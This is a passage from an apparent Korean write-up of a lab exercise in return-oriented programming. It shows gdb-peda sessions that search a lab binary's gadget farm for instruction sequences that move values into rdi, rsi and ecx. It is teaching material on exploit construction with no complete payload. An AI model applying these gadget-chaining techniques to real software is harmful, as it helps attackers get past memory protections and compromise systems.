 ```R
gdb-peda$ x/2i 0x00401a70
   0x401a70 <addval_138+2>:	mov    %rax,%rdi
   0x401a73 <addval_138+5>:	retq 
```

`rdi`에 `rsp`의 값을 직접 넣을 수는 없지만, `mov %rax,%rdi`를 수행하는 가젯을 찾을 수 있었다. 우리는 앞서 `mov %rsp,%rax`를 수행하는 가젯을 찾았기 때문에, 이 두 가젯을 조합하면 `rdi`에 `rsp`의 값을 넣을 수 있다. 그러면 이제, `rsi`의 값을 임의로 설정하기 위한 가젯을 찾아볼 것이다.

##### Find Gadget to Set `rsi`

```r
gdb-peda$ ropsearch "mov ?, ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, ?' in range: 0x401a53 - 0x401b6c
... (생략)
0x00401aec : (b'89ce90c3')	mov %ecx,%esi; nop; retq
... (생략)
```

```R
gdb-peda$ disas 0x00401aec
Dump of assembler code for function getval_436:
   0x0000000000401aeb <+0>:	mov    $0xc390ce89,%eax
   0x0000000000401af0 <+5>:	retq   
End of assembler dump.
```

```R
gdb-peda$ x/3i 0x00401aec
   0x401aec <getval_436+1>:	mov    %ecx,%esi
   0x401aee <getval_436+3>:	nopr
   0x401aef <getval_436+4>:	retq 
```

`rsi`로 값을 쓸 수 있는 가젯 중에서, `mov %ecx,%esi`를 수행하는 가젯이 제일 유용해보였기 때문에, 이를 이용하기로 했다. 그러면 이제, `ecx`를 적절히 우리가 원하는 값으로 쓸 수 있도록 하는 가젯을 찾아볼 것이다.

##### Find Gadget to Set `ecx`

```R
gdb-peda$ ropsearch "mov ?, ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, ?' in range: 0x401a53 - 0x401b6c
... (생략)
0x00401a9d : (b'89d120c0c3')	mov %edx,%ecx; and %al,%al; retq
... (생략)
```

```r
gdb-peda$ disas 0x00401a9d
Dump of assembler code for function setval_309:
   0x0000000000401a9b <+0>:	movl   $0xc020d189,(%rdi)
   0x0000000000401aa1 <+6>:	retq   
End of assembler dump.
```

```r
gdb-peda$ x/3i 0x00401a9d
   0x401a9d <setval_309+2>:	mov    %edx,%ecx
   0x401a9f <setval_309+4>:	and    %al,%al
   0x401aa1 <setval_309+6>:	retq  
```
